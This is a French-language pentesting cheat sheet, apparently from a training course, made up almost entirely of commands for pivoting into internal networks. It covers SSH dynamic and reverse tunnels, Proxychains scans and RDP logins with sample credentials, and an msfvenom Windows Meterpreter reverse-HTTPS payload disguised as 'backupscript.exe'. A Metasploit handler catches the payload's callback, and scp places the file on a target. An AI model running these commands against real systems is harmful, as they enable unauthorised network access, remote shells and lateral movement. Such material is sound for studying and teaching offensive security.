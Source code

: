 ```shell
`ssh -D 9050 ubuntu@<AdresseIPduCible>`
```shell
### Commande SSH utilisée pour créer un tunnel SSH inverse d'une cible vers un hôte d'attaque. Le trafic est transféré sur le port 8080 sur l'hôte d'attaque vers le port 80 sur la cible.
```bash
`ssh -R <IPInterneDuHôtePivot>:8080:0.0.0.0:80 ubuntu@<AdresseIPduCible> -vN`
```shell
## Proxychains et SOCKS

### Commande Linux utilisée pour afficher les 4 dernières lignes de /etc/proxychains.conf. Peut être utilisée pour s'assurer que les configurations socks sont en place.
```bash
`tail -4 /etc/proxychains.conf`
```shell
### Utilisé pour envoyer le trafic généré par un scan Nmap via Proxychains et un proxy SOCKS. Le scan est effectué contre les hôtes dans la plage spécifiée 172.16.5.1-200 avec une verbosité accrue (-v) désactivant le scan ping (-sn).
```bash
`proxychains nmap -v -sn 172.16.5.1-200`
```shell
### Utilisé pour envoyer le trafic généré par un scan Nmap via Proxychains et un proxy SOCKS. Le scan est effectué contre 172.16.5.19 avec une verbosité accrue (-v), désactivant la découverte ping (-Pn), et en utilisant le type de scan TCP connect (-sT).
```bash
`proxychains nmap -v -Pn -sT 172.16.5.19`
```shell
### Utilise Proxychains pour ouvrir Metasploit et envoyer tout le trafic réseau généré via un proxy SOCKS.
```bash
`proxychains msfconsole`
```shell
### Utilisé pour se connecter à une cible en utilisant RDP et un ensemble d'identifiants via proxychains. Cela enverra tout le trafic via un proxy SOCKS.
```bash
`proxychains xfreerdp /v:<AdresseIPduCible> /u:victor /p:pass@123`
```shell
### Ouvre firefox avec Proxychains et envoie la requête web via un serveur proxy SOCKS vers le serveur web de destination spécifié.
```bash
`proxychains firefox-esr <AdresseIPduServeurWebCible>:80`
```shell
### Ligne de texte qui doit être ajoutée à /etc/proxychains.conf pour garantir qu'un proxy SOCKS version 4 est utilisé en combinaison avec proxychains sur l'adresse IP et le port spécifiés.
```bash
`socks4 127.0.0.1 9050`
```shell
### Ligne de texte qui doit être ajoutée à /etc/proxychains.conf pour garantir qu'un proxy SOCKS version 5 est utilisé en combinaison avec proxychains sur l'adresse IP et le port spécifiés.
```bash
`Socks5 127.0.0.1 1080`
```shell
## Transfert de Fichiers et Payload

### Utilise msfvenom pour générer un payload Meterpreter reverse HTTPS Windows qui enverra un rappel à l'adresse IP spécifiée après lhost= sur le port local 8080 (LPORT=8080). Le payload prendra la forme d'un fichier exécutable appelé backupscript.exe.
```bash
`msfvenom -p windows/x64/meterpreter/reverse_https lhost= <IPInterneDuHôtePivot> -f exe -o backupscript.exe LPORT=8080`
```shell
### Utilisé pour sélectionner le module d'exploit multi-handler dans Metasploit.
```bash
`msf6 > use exploit/multi/handler`
```shell
### Utilise le protocole de copie sécurisée (scp) pour transférer le fichier backupscript.exe vers l'hôte spécifié et le place dans le répertoire personnel de l'utilisateur Ubuntu (:~/).
```bash
`scp backupscript.exe ubuntu@<AdresseIPduCible>:~/`
```